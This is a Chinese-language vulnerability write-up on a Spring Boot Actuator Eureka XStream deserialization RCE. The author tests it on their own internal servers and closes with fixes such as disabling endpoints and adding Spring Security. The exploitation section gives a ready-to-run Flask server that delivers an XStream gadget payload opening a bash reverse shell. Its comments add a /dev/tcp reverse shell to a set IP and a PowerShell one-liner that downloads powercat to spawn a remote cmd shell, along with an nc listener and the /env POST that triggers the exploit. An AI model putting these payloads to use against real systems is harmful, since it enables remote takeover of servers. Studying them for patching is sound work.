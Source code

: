 前言
--

发现内网多台服务器均存在该漏洞Spring Boot Actuator(eureka xstream deserialization RCE)，对该漏洞进行测试与修复

漏洞介绍
----

​ Actuator是Spring Boot提供的服务监控和管理中间件，默认配置会出现接口未授权访问，部分接口会泄露网站流量信息和内存信息等，使用Jolokia库特性甚至可以远程执行任意代码，获取服务器权限

​ XStream：XStream是Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。

​ /env端点配置不当造成RCE

### 影响版本

 eureka-client &lt; 1.8.7

### 风险等级

​ 严重

### 官方说明

actuator 是 springboot 提供的用来对应用系统进行自省和监控的功能模块。其提供的执行器端点分为两类：原生端点和用户自定义扩展端点，原生端点主要有：

```php
路径            描述
/autoconfig    提供了一份自动配置报告，记录哪些自动配置条件通过了，哪些没通过
/beans         描述应用程序上下文里全部的Bean，以及它们的关系
/env           获取全部环境属性
/configprops   描述配置属性(包含默认值)如何注入Bean
/dump          获取线程活动的快照
/health        报告应用程序的健康指标，这些值由HealthIndicator的实现类提供
/info          获取应用程序的定制信息，这些信息由info打头的属性提供
/mappings      描述全部的URI路径，以及它们和控制器(包含Actuator端点)的映射关系
/metrics       报告各种应用程序度量信息，比如内存用量和HTTP请求计数
/shutdown      关闭应用程序，要求endpoints.shutdown.enabled设置为true
/trace         提供基本的HTTP请求跟踪信息(时间戳、HTTP头等)
```

漏洞利用
----

使用python3在vps服务器运行恶意构造的脚本，在根据具体情况填写反弹shell的ip和端口

```python
# -*- coding: utf-8 -*-
# @Time    : 2019/3/12 10:06
# @Author  : j1anFen
# @Site    :
# @File    : run.py

# linux反弹shell bash -i >&amp; /dev/tcp/192.168.20.82/9999 0>&amp;1
# windows反弹shell
# <string>powershell</string>
# <string>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');</string>
# <string>powercat -c 192.168.123.1 -p 2333 -e cmd</string>

from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods = ['GET', 'POST'])
def catch_all(path):
    xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                                <string>/bin/bash</string>
                      <string>-c</string>
                      <string>bash -i >&amp; /dev/tcp/yourvpsip/8446 0>&amp;1</string> 
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>"""
    return Response(xml, mimetype='application/xml')
if __name__ == "__main__":
    app.run(host=0.0.0.0', port=2222)
```

Nc监听一个端口用以接收反弹shell

```php
nc -lvnp 8446
```

访问/env端点获取全部环境属性，由于 actuator 会监控站点 mysql、mangodb 之类的数据库服务，所以通过监控信息有时可以展示mysql、mangodb 数据库信息

[![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-cbf69e0f85a717f211b06428520f361e2af8638d.png)](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-cbf69e0f85a717f211b06428520f361e2af8638d.png)

写入配置，访问/env端点，抓包将get请求改为post请求，post内容为（该ip为开启恶意脚本的服务器的ip）：

eureka.client.serviceUrl.defaultZone=<http://ip:2335/xstream>

[![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-28e954ac70c447816d2366761d45f7255603984e.png)](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-28e954ac70c447816d2366761d45f7255603984e.png)

返回的响应包

[![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-0e2d859b39c74d8ea3dc0d5a898992dd5aeca6c5.png)](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-0e2d859b39c74d8ea3dc0d5a898992dd5aeca6c5.png)

这时已经查看服务器接收到shell，并且能成功执行命令，到这已经拿下服务器。

[![](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-fd39c0d198d11813c25038cc9a36db852b9a58f5.png)](https://shs3.b.qianxin.com/attack_forum/2021/05/attach-fd39c0d198d11813c25038cc9a36db852b9a58f5.png)

漏洞修复
----

毕竟是自家资产，该修复还是要修复的。

### 一 禁用所有接口：

```php
endpoints.enabled = false
```

### 二 pom.xml文件引入spring-boot-starter-security依赖：

```php
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
</dependency>
```

### 三 开启security功能，配置访问权限验证，类似配置如下：

```php
management.port=8099
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxxx
```